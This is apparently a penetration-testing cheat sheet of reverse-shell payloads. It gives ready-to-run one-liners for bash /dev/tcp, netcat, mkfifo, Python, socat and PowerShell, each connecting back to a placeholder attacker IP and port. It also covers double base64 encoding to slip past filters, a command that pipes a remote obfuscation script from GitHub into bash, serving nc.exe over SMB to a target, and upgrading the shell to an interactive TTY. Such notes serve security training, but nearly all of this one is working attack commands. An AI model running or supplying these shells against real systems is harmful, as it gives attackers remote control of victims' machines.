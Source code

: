# Reverse Shells

## Reverse Shells

### Reverse Shell Generator

[https://www.revshells.com/](https://www.revshells.com/)

### Bash

```bash
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

{% hint style="info" %}
It is recommended to encapsulate the command in a `bash -c ''` to prevent issues with the _**/dev/tcp**_ bash functionality.
{% endhint %}

We can encode the content in **base64**, to avoid conflicts with symbols and spaces in URLs. Additionally, to prevent any _"+"_ characters from appearing, we can use double encoding.

```bash
# Get the encoded command
echo "bash -i >& /dev/tcp/<ip>/<port> 0>&1" | base64 | base64

# Execute the reverse shell
echo <b64_code> | base64 -d | base64 -d | bash
```

### Netcat

```bash
nc -e /bin/bash <ip> <port>
```

### Mkfifo

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f
```

### Python3

{% code overflow="wrap" %}
```bash
i="<ip>" p=<port> && echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('$i',$p));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn('bash')" | python3
```
{% endcode %}

### Socat

```bash
socat tcp-connect:<ip>:<port> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

### PowerShell

**Base64**

{% code overflow="wrap" %}
```bash
# Get the encoded command
echo '$client = New-Object System.Net.Sockets.TCPClient("<ip>",<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' | iconv -t utf-16le | base64 -w 0; echo

# Execute the reverse shell
powershell -e <b64_code>
```
{% endcode %}

#### **Obfuscated**

Run this on your local machine:

{% code overflow="wrap" %}
```bash
bash <(curl -s https://raw.githubusercontent.com/villalbanico9/H4Ts/main/Tools/Reverse%20Shells/obfuscate_ps_reverse_tcp.sh) <ip> [<port>]
```
{% endcode %}

### **Netcat**

Locate "nc.exe" and copy it to your current directory, then run this on your local machine:

```bash
smbserver.py <share_name> $(pwd) -smb2support
```

And while running the smb server, execute this on the target:

```html
\\<ip>\smbShare\nc.exe -e cmd <ip> <port>
```

## Interactive TTY

{% hint style="info" %}
It is also possible to use `rlwrap` when starting your listening socket:

```bash
rlwrap -cAr nc -nlvp <port>
```
{% endhint %}

```bash
script /dev/null -c bash
```

or

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

and then

```bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows <rows> columns <cols>  # Check size in another window -> stty size
```
